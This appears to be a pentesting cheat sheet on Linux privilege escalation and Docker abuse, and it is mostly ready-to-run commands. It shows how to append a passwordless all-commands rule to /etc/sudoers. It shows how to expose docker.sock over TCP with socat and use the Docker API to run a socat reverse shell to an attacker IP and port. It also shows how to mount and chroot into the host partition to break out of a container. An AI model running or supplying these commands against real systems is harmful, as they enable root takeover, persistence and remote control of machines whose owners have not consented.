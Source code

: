 ----------------------------------------

### Interesting way to access root

- Add your user to the `/etc/sudoers` file and grant power to execute all commands

      echo "<user> ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers

------------------------------

### Abusing docker.sock unix socket

- If a docker container contains a `docker.sock` file,you can find it with `find / -name docker.sock 2</dev/null`

![image](https://github.com/user-attachments/assets/5bf2e2ef-f333-426b-9dbe-eb414b88e1d6)

- Make it accessible on the machine with socat

      socat TCP-LISTEN:[PORT],reuseaddr,fork UNIX-CLIENT:/var/run/docker.sock

   ### Getting a revshell as root on the container

   - List all containers to get their ids

          curl http://localhost:[port]/containers/json

   - Add the id to this link, replace cmd's value with your rev shell code

         curl http://localhost:8080/containers/[existing container's id]/exec -X POST -H  "Content-Type: application/json" -d '{"AttachStdin":false, "AttachStdout":true, "AttachStderr":true, "Tty":false, "Privileged":false, "Cmd":["socat","TCP:[ip]:[port]","EXEC:bash"]}'

  - Start the container with id from the output the command above

        curl http://localhost:8080/exec/<id>/start -X POST -H "Content-Type: application/json"  -d '{"Detach": false,"Tty": false}'

- Mounting host partition on docker

      mkdir /tmp/mnt
      mount /dev/<partition> /tmp/mnt
      chroot /tmp/mnt
      mount -t proc proc /proc # Mount /proc to allow access to hardware information and running processes

--------------------

### References:

- [Quarkslab](https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html)
- [Dejandayoff](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

----------------------

### Privesc with doas 
